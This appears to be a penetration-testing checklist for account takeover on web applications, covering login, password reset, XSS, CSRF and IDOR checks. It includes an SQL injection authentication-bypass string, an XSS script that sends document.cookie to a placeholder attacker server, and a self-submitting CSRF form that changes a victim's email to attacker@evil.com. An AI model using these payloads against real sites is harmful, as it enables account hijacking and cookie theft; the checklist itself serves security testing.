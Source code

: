 ## Account Takeover Checklist

- login:
    1. check if you are able to brute force the password

    2. Test for OAuth misconfigurations

    3. check if you are able to bruteforce the login OTP

    4. check for JWT mesconfigurations

    5. Test for SQL injection to bypass authentication

        ```admin" or 1=1;--```
    6. check if the application validates the OTP or Token

- password reset:
    1. check if you are able to brute force the password reset OTP

    2. test for token predectability

    3. test for JWT misconfigurations

    4. check if the password reset endpoint is vulnerable to IDOR

    5. check if the password reset endpoint is vulnerable to Host Header injection

    6. check if the password reset endpoint is leaking the token or OTP in the HTTP response

    7. check if the application validates the OTP or Token

- XSS to Account Takeover

    1. try to exfiltrate the cookies

    2. try to exfiltrate th Auth Token

    3. if the cookie's "domain" attribute is set, search for xss in the subdomains and use it to exfiltrate the cookies

    - PoC Example:
        ```html
        <script>
            /*
            this script will create a hidden <img> element
            when the browser tries to load the image
            the victim's cookies will be sent to your server
            */

            var new_img = document.createElement('img');
            new_img.src = "http://yourserver/" + document.cookie;
            new_img.style = 'display: none;'
            document.body.appendChild(new_img);
        </script>

        ```

- CSRF to Account Takeover

    1. check if the email update endpoint is vulnerable to CSRF

    2. check if the password change endpoint is vulnerable to CSRF

    - PoC Example:
        ```html
            <html>
                <head>
                    <title>CSRF PoC</title>    
                <head>
                <body>
                    <form name='attack' action='https://example.com/update-email' method='POST'>
                        <input type="hidden" name="new_email" value="attacker@evil.com">
                        <input type="submit" name="submit" value="submit" hidden>
                    <form>
                    <script>
                        document.attack.submit.click()
                    </script>
                </body>
            </html>
        ```

- IDOR to Account Takerover

    1. checck if the email update endpoint is vulnerable to IDOR

    2. check if the password change endpoint is vulnerable to IDOR

    3. check if the password reset endpoint vulnerable to IDOR
